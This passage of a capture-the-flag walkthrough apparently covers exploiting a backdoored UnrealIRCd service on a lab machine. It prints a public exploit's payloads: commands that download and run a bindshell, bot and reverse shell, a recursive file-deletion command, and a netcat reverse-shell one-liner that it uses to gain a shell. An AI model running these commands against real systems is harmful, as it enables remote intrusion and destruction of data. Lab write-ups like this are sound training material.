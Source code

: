 I'll examine the perl script the same way,
`searchsploit -x exploits/linux/remote/13853.pl`. Right at the top I see
this section:



    ## Payload options
    my $payload1 = 'AB; cd /tmp; wget http://packetstormsecurity.org/groups/synnergy/bindshell-unix -O bindshell; chmod +x bindshell; ./bindshell &';
    my $payload2 = 'AB; cd /tmp; wget http://efnetbs.webs.com/bot.txt -O bot; chmod +x bot; ./bot &';
    my $payload3 = 'AB; cd /tmp; wget http://efnetbs.webs.com/r.txt -O rshell; chmod +x rshell; ./rshell &';
    my $payload4 = 'AB; killall ircd';
    my $payload5 = 'AB; cd ~; /bin/rm -fr ~/*;/bin/rm -fr *';



It appears to be doing the same thing.

## Shell as ircd

### Show RCE

Based on what I found during reconnaissance, I think I can just connect
with `nc` and enter `AB; [some command]` and get it to run. I'll test
with a ping. I have `tcpdump` running listening for icmp. Now I'll
connect, and test out my theory:



    root@kali# nc 10.10.10.117 6697
    :irked.htb NOTICE AUTH :*** Looking up your hostname...
    :irked.htb NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
    AB; ping -c 1 10.10.14.14
    :irked.htb 451 AB; :You have not registered



In my other window:



    root@kali# tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    07:53:38.650512 IP 10.10.10.117 > 10.10.14.14: ICMP echo request, id 3472, seq 1, length 64
    07:53:38.650548 IP 10.10.14.14 > 10.10.10.117: ICMP echo reply, id 3472, seq 1, length 64



### Shell

Now I can use this to get a shell:



    AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.14 443 >/tmp/f



